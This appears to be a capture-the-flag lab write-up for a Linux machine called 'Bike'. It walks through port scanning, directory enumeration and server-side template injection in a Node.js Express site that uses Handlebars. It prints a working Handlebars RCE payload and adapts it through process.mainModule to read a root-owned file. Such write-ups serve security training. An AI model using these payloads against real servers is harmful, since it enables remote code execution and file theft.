 # MACHINE - BIKE

IP : 10.129.236.251

Type: Linux

---

## OPEN PORTS

[1] 22/tcp ssh **OpenSSH 8.2p1**
[2] 80/tcp http **Node.js** (*Express* middleware)

- No further informations obtained using `-sC`

---

## OPENING THE SITE

- Nothing strange in the source code
- No cookies being set
- No strange requests by submitting an email
- Running directory enumeration

```
$ gobuster dir -u http://10.129.239.64/ -w /usr/share/wordlist/dirb/common.txt
```

- Found the following directories

1. css
2. images
3. js

- Connection refused for some requests
- When trying to put the email and click on submit the email is shown back to the user
- This can lead to possible attack vectors for XSS (Cross-Site Scripting)
- We already know that the site uses:

1. Node.js as programming language
2. Express as both Web Framework and Web Servers

- Trying with classical `<script>alert(1)</script>` -> Not working
- We must use another vulnerability
- Node.js and Python backend serverse make use of a *Template Engine*
- Template Engine are usually prone to [*Server-Side Template Injection*](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

> Server-Side Template Injection is a vulnerability where the attacker injects
> malicious input into a template in order to execute commands on the server

- In this case the template is when the input email is returned in the page

---

## SERVER-SIDE TEMPLATE INJECTION

- According to HackTricks

> To detect SSTI, initially, fuzzing the template is a straightforward approach. This
> involves injecting a sequence of special characters (`${{<%[%'"}}%\`) into the 
> template and analyzing the differences in the server's response to regular data
> versus this special payload. A possible vulnerability is found if the template
> tries to evaluate template expressions like: `{{7*7}}` or `${7*7}`

- Injecting `{{7*7}}` into the form throws an error page
- Identified the used Template Engine to be: *Handlebars*
- The server run from the folder `/root/Backend`

- According to this [post](https://blog.shoebpatel.com/2021/01/23/The-Secret-Parameter-LFR-and-Potential-RCE-in-NodeJS-Apps/)

> If you are using ExpressJs + Handlebars for Server Side Rendering, you are likely
> vulnerable to *Local File Read* (LFR) and potential *Remote Code Execution* (RCE).

- Read also this [post](https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html)

- In HackTricks we can find the following payload for RCE

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

- We can try to sent this payload
- First we need to encode it
- We can use BurpSuite to intercept the traffic, Encode the payload and then send it
- Once it has been sent we obtain an error in the response

```
Error: require is not defined
```

- That's because we cannot directly access `require`
- Template Engines are often Sandboxed, it is very hard to load modules
- However there are some variables that are defined *Global*, accessible by all
- In NodeJS there is one of particular interesting, named *process*

> *process*  provides information about, and control over, the current Node.js process

- Just modify the previous payload with

```
{{this.push "return process;"}}
```

- Sent the payload we obtain an actual HTML page with this information in the template

```
We will contact you at:       e
2
[object Object]
function Function() { [native code] }
2
[object Object]
[object process]
```

- Looking at the documentation we can see that there is a MainModule property
- It is deprecated but not inaccessible
- Modify the payload with

```
{{this.push "return process.mainModule;"}}
```

- We can go on
- Just use this payload now

```
{{this.push "return process.mainModule.require('child_process')\
	.execSync('cat /root/flag.txt')"}}
```